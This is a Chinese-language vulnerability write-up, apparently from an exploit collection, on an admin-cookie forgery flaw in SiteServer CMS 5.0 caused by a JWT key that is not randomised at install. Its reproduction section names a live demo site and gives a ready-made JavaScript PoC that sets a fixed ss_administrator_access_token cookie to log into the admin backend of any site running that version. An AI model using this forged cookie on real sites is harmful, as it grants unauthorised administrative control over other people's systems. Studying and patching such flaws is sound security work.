 # SiteServer CMS 5.0 管理后台Cookie欺骗

### 一、漏洞简介

SiteServer CMS 5.0 后台访问控制采用JWT技术进行身份鉴别，HTTP请求时通过Cookie中的ss_administrator_access_token字段值作为身份鉴别，而加密ss_administrator_access_token字段值的key在安装时未进行随机初始化，导致所有相同版本的应用系统Cookie可以通用,通过修改Cookie可登陆任意相同版本后台。

### 二、漏洞影响

SiteServer CMS 5.0

### 三、复现过程

系统环境：IIS 7.5 + MSSQL 2008 R2 （操作系统：Windows Server 2008 R2）

先访问一个站点，以官方体验站点为例子：

http://cms.demo.siteserver.cn/siteserver/login.aspx

Chrome浏览器按F12切换到控制台，设置ss_administrator_access_token的Cookie值（以下PoC可以直接使用）：


```bash
document.cookie='ss_administrator_access_token=M3ENIa3NKJJ39JCRHnY4PgfJqMC7lFjggL0e9S06Bs9ubZE90add0xM2aesaL0add0Cxo8Xe5VZrSanerzFU8oZaMXCC9AoJfZvq5AtBXGxi0slash0tCRtk8UgV5UXu1u2pDL6htbwIqGBZx0slash0ZqVH4x0LjRE20slash0mz3FHc5QJFpTAKI0slash0AJ52LJ6XnWB7gsJuHFauL0add0q0add0sIMft8e3ef840gWzQaChpfGHfYwGS5wHFaC19T56X2J0Z5Hn500equals0'
```

再次访问（后面没有login.aspx）：

http://cms.demo.siteserver.cn/siteserver/

登陆成功
